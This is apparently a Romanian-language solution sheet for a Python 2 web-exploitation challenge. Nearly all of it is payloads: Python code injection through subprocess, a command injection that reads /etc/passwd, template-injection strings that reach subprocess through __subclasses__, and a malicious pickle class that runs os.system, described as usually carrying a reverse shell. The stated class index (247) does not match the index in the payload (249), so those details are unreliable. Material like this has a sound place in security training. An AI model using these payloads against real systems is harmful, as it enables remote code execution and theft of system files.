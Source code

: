 Python2.
Rezolvare:

1.Python code injection:
__import__('subprocess').Popen('uname -a',shell=True,stdout=__import__('subprocess').PIPE).stdout.read().decode('utf-8')

2.Command execution:
test || cat /etc/passwd

3.Template injection:
https://hackerone.com/reports/125980 - copiat dupa asta mai exact scrii {{command}} ca sa se execute, unde {{}} e templateul. Identifici cu comanda de mai jos ce biblioteci sunt folosite in cod si apoi folosesti urmatorul payload:
     {{ [].__class__.__base__.__subclasses__() }}

{{''.__class__.mro()[2].__subclasses__()[249]('uname -a',shell=True,stdout=-1).communicate()[0]}} - 247 este pozitia pe care avem biblioteca subprocess.

4.Deserialization:
class Blah(object):
    def __reduce__(self):
        return (os.system,("uname -a",))
h=Blah()
base64.b64encode(cPickle.dumps(h))
----- os.system va returna 0 ceea ce inseamna ca se executa ( de fel folosesti un reverse shell pt asta)

5. xss:

6. LFI
